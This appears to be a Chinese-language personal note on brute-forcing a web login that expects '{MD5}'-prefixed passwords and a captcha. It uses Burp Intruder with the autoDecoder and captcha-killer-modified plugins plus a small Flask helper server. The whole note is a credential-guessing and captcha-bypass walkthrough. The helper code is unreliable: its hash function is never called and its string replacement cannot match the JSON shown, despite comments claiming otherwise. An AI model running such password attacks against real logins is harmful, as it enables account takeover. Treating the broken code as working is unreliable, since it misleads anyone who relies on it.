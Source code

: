 # ldap的md5加密配合`autoDecoder`插件、`captcha-killer-modified`插件
#autoDecoder例

需要传入的数据包为:
```bash
{"username":"admin","password":"{MD5}ISMvKXpXpadDiUoOSoAfww==","code":"YJIV"}
```

`intruder`数据包设置如下：
```bash
{"username":"admin","password":"§1§","code":"§JOEJ§"}
```

`intruder`设置如下：
![800](photo/Pasted%20image%2020220414142603.png)
![800](photo/Pasted%20image%2020220414142107.png)
![800](photo/Pasted%20image%2020220414142541.png)

由于我们只针对`intruder`里的账号密码进行爆破，所以解密接口我们用不到，直接捕捉到数据包直接返回即可：
```python
@app.route('/decode',methods=["POST"]) # 不解密  
def decrypt():  
    param = request.form.get('data')  # 获取  post 参数  
	return param  
```
加密服务端代码如下：
```python
# -*- coding:utf-8 -*-  
# author:f0ngf0ng  
  
# ldap的md5加密爆破  
  
from flask import Flask,Response,request  
from pyDes import *  
import base64,hashlib,json  
  
def hash_md5(data):  
    md = hashlib.md5()  
    md.update(str(data))  
    a = md.digest()  
    b = base64.b64encode(a)  
    return b  
  
app = Flask(__name__)  
  
@app.route('/encode',methods=["POST"])  
def encrypt():  
    param = request.form.get('dataBody')  # 获取  post 参数  
	data = json.loads(param)  
    print(data)  
    encry_param = param.replace( "password': '"+ data['password'],"password': '"+"{MD5}" + data['password']) # 密文替换明文，且添加{MD5}关键字  
    return encry_param  
  
@app.route('/decode',methods=["POST"]) # 不解密  
def decrypt():  
    param = request.form.get('dataBody')  # 获取  post 参数  
	return param  
  
if __name__ == '__main__':  
    app.debug = True # 设置调试模式，生产模式的时候要关掉debug  
    app.run(host="0.0.0.0",port="8888")
```
运行如下
```bash
python flask.py
```
`autoDecoder`设置如下：
![800](photo/Pasted%20image%2020220414141838.png)

`captcha-killer-modified`插件页面如下：
![800](photo/Pasted%20image%2020220414143000.png)
爆破如下：
![800](photo/Pasted%20image%2020220414143037.png)
